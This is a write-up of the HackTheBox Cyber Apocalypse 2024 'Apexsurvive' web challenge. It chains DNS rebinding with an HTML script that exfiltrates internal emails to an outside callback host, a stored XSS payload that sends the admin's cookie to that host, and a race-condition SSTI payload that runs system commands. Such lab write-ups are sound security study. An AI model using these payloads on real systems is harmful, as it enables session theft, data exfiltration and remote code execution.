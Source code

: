+++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = false
categories = ['HackTheBox', 'Web', 'Insane']
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to *test@email.htb*.

![EmailCode](test-email.png)

We create a user with the email *test@email.htb* and confirm the registration by visiting the link from an email.

![Verify email 1](verify-email-1.png)

![Verify email 2](verify-email-2.png)

## DNS Rebinding to Activate an Internal User
Upon further code inspection, we found out that users who sign up with an email hosted at *apexsurvive.htb* will be marked as internal users.

![VerificationCode](apexsurvive-email.png)

There's an */external* API endpoint that can be used for an open redirect.

![Open redirect](open-redirect.png)

The emails are served by Mailhog running on port 9000 and can be internally retrieved by using the */api/v2/messages* endpoint.

![Mailhog port](mailhog-port.png)

We create a user *asdf@apexsurvive.htb*.

![Apex register](apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](apex-verify.png)

We'll use the */external* endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from Mailhog running on port 9000 and get the confirmation email for the internal user. To do this, we'll set up an EC2 instance with a public IP address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](dns-config.png)

We have to allow incoming traffic from ports UDP 53 (for DNS) and TCP 9000 (for the HTTP server) at minimum. We configure the security group of our EC2 instance as following.

![Security group configuration](security-group.png)

On the instance, we'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from EC2 public IP address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an HTTP server on it serving index.html that keeps fetching /api/v2/messages for Mailhog emails and then sends them back to us. **Remember it has to be on the same origin (port 9000).**

    sudo python3 -m http.server 9000

*index.html* served by the HTTP server:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

The script keeps fetching *http://dynamic.mywebsite.xyz:9000/api/v2/messages* in short intervals. which is on the same origin. After a while our DNS rebinder should switch from the EC2 IP address to localhost. Then, the script will successfully fetch the emails and send them back to us in base64.

We log in as *test@email.htb* and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public IP.

![DNS rebind](dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after the one with query parameter *start=start* one contains base64 encoded emails from Mailhog API. We decode them and get the confirmation link for the internal user.

![Exfiltrated emails](exfiltrated-emails.png)
![Base64 emails](base64-emails.png)

## Stored XSS to Steal the Session Cookie From the Admin
As an internal user, we now can add products. In */application/templates/product.html* we notice that the *product.note* (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](add-product.png)

We double-check we escaped JS backticks after adding the product:

![JS backtick escape](js-backtick-escape.png)

After we create it, we make the admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](admin-session-xss.png)

## Leveraging a Race Condition for SSTI Leading to RCE
As an admin, we now can add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a PDF,
- we can save the file anywhere by path traversal using “..” in the filename,
- the PDF check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](pdf-upload-race-condition.png)

As a result, **there’s a race condition between saving the temp file and checking that it’s a PDF.**

We prepare 2 files:
1) a small PDF,
2) a Jinja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](burp-parallel-1.png)
![Burp parallel requests setup 2](burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of PDF/Jinja template requests in the group. We watch out for *message: Contract added* in a response to a Jinja template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under */static/images/flag.txt*.

![Result 0](result-0.png)
![Apex flag](apex-flag.png)

## References
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine